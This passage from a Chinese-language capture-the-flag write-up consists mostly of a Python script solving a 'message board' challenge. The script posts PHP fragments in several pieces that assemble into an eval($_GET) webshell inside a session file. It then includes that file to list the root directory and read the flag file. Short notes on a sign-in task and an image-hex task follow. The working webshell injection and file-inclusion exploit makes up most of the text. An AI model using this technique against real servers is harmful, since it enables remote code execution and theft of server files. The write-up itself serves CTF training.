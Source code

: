 用这个连到shell

![image-20200922094750318](wp.assets/image-20200922094750318.png)

## 西北工业大学留言板

```python
import requests

session = requests.session()

url = "http://47.93.116.52:20002/msg.php"
cookies = {"session": "6ae17247-53f3-4ac4-b419-fb63814ecc28.Ty_3FbzG99sbFHyITrswaOuq1ek", "PHPSESSID": "hd36m74o0s6g5ce7fhv8lcef85"}
headers = {"User-Agent": "Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0", "Accept": "*/*", "Accept-Language": "en-US,en;q=0.5", "Accept-Encoding": "gzip, deflate", "Referer": "http://ha1cyon-ctf.fun:30135/index.bak.php?action=message.php", "Content-Type": "application/x-www-form-urlencoded; charset=UTF-8", "X-Requested-With": "XMLHttpRequest", "Connection": "close"}

data = {"msg": "<?PhP \n#"}  # data = {"msg": "<?PhP /*"}
session.post(url, headers=headers, cookies=cookies, data=data)

data = {"msg": "\n$a=$_GET;#"}  # data = {"msg": "*/$a=$_GET;/*"}
session.post(url, headers=headers, cookies=cookies, data=data)

data = {"msg": "\neval($a[1]);#"}  # data = {"msg": "*/eval($a[1]);/*"}
session.post(url, headers=headers, cookies=cookies, data=data)

data = {"msg": "\n ?>"}  # data = {"msg": "*/ ?>"}
session.post(url, headers=headers, cookies=cookies, data=data)

url = "http://47.93.116.52:20002/index.bak.php?action=/tmp/sess_hd36m74o0s6g5ce7fhv8lcef85&1=print_r(scandir('/'));print_r(file_get_contents('/FIag_!S_it'));"
r=session.get(url, headers=headers, cookies=cookies)
print(r.text)
```

## 签到题

签到

## restore

看图片的16进制
